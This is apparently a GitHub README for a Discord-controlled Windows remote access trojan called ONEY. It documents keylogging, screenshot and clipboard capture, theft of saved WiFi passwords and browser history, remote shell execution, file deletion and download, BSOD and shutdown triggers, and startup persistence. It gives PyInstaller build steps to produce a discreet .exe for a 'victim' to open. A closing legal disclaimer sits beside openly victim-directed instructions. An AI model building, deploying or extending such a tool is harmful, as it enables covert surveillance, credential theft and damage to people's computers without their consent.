 # Discord-Bot-RAT ONEY

[![Python](https://img.shields.io/badge/Python-3.8%2B-3776AB?logo=python&logoColor=white)](https://python.org)
[![Platform](https://img.shields.io/badge/Platform-Windows-0078D6?logo=windows&logoColor=white)](https://www.microsoft.com/windows)
[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg?logo=gnu&logoColor=white)](https://www.gnu.org/licenses/gpl-3.0)
[![Code Style](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)

A remote Discord-based administration system.


![preview](ignore/preview.png)


## 🌟 Feature Highlights

### 🕵️‍♂️ Surveillance Module
| Feature | Command | Preview |
|---------|---------|---------|
| Screen Capture | `!screen` | Screenshot |
| Keylogger | `!log`/`!stoplog` | `[LOG] Keys: [Enter]T[E]S[T]` |
| Clipboard | `!clipboard` | Copies current clipboard |

Runs in the background, sets itself to run at startup, checks if user is connected to the internet before running main code.

### 💻 System Control
```
!exec ipconfig        # Remote command execution
!su                   # Privilege escalation
!bsod                 # Blue screen of death trigger

 Hardware Inventory
!cpu                  # CPU specs
!ram                  # Memory (GB) 
!drives               # Storage analysis

 Network Recon
!ip                   # IP address
!wifi                 # Connected networks
!dns                  # DNS configuration

and more! (check below)
```
## 🚀 Deployment

You can just open the builder.bat to create your .exe file ready to be sent.

or you can do it manually by doing this:

Requirements
```
pip install -r requirements.txt

python oney.py
```
Or if you want to send it to another person (victim) as an .exe file do this:

```
pip install pyinstaller

pip install -r requirements.txt

pyinstaller --onefile --windowed oney.py

# you can add --icon=icon.ico before oney.py for a custom icon (icon has to be in the same folder and has to be named "icon" with the extension ".ico").
```
This will generate a .exe file in the dist folder ready to be opened by the victim, no requirements or python needed to open it.

File extension can be modified to:
```
.py for console logs. (you need the requirements installed on the victims pc.)

.pyw discrete. (you need the requirements installed on the victims pc)

.exe if you compile it with pyinstaller. (Recommended! no requirements or python needed, just an .exe file ready to be opened.)
```
 ## 📜 Full Command Reference

    commands_list = [
        ('!screen', 'Capture and send a screenshot'),
        ('!ip', 'Get the IP address'),
        ('!clipboard', 'Show clipboard content'),
        ('!exec <command>', 'Run a shell command'),
        ('!shutdown', 'Shutdown the computer'),
        ('!bsod', 'Trigger a BSOD (WARNING)'),
        ('!msg <message>', 'Show a Windows message box'),
        ('!url <url>', 'Open a URL in browser'),
        ('!restart', 'Restart the computer'),
        ('!cancelrestart', 'Cancel a scheduled restart'),
        ('!log', 'Start keylogging (sends every 15s)'),
        ('!stoplog', 'Stop keylogging'),
        ('!ls', 'List files in the current directory'),
        ('!cd <path>', 'Change the current directory'),
        ('!rm <filename>', 'Delete a file'),
        ('!rmd <dirname>', 'Delete a directory'),
        ('!download <filename>', 'Download a file'),
        ('!uuid', 'Get the system UUID'),
        ('!mac', 'Get MAC addresses'),
        ('!dns', 'Get DNS server info'),
        ('!wifi', 'Show connected WiFi info'),
        ('!wifi_passwords', 'Show saved WiFi passwords'),
        ('!systeminfo', 'Show system information'),
        ('!cpu', 'Show CPU information'),
        ('!gpu', 'Show GPU information'),
        ('!ram', 'Show RAM information in GB'),
        ('!drives', 'Show drives information in GB'),
        ('!hostname', 'Show the hostname'),
        ('!osinfo', 'Show OS version'),
        ('!user', 'Show current user'),
        ('!recent [browser]', 'Show recently visited websites'),
        ('!su', 'Request administrator privileges')
    ]

## 🛠 Discord Bot Setup Guide
1. Create a Discord Application


Go to the Discord Developer Portal https://discord.com/developers/applications

Click "New Application" → Name it (e.g., "oney") → Click "Create"

2. Give Administrator


Navigate to the "Bot" tab in left sidebar


Click Administrator down below

3. Configure Bot Permissions


Under "Privileged Gateway Intents", enable:
```
✅ Presence Intent

✅ Server Members Intent

✅ Message Content Intent

```
Copy your Bot Token (click "Reset Token" if blank)

4. Invite Bot to Your Server


Go to "OAuth2" → "URL Generator"

Select these scopes:
```
bot

applications.commands
```
Set these permissions (checkboxes):
```
Administrator
```
Copy the generated URL and visit it in your browser

## Configuration
Edit python file:

```
  "token": "token"
  ```
   Replace token with your discord bot token. get it from https://discord.com/developers/applications

# ⚖️ Legal Compliance

Warning

This tool is only for:
```
Authorized pentesting

Educational research

System administration
```
Document all consent before use.
Violations may incur penalties under:
```
CFAA (18 U.S. Code § 1030)

GDPR Article 5

Local computer crime laws
```
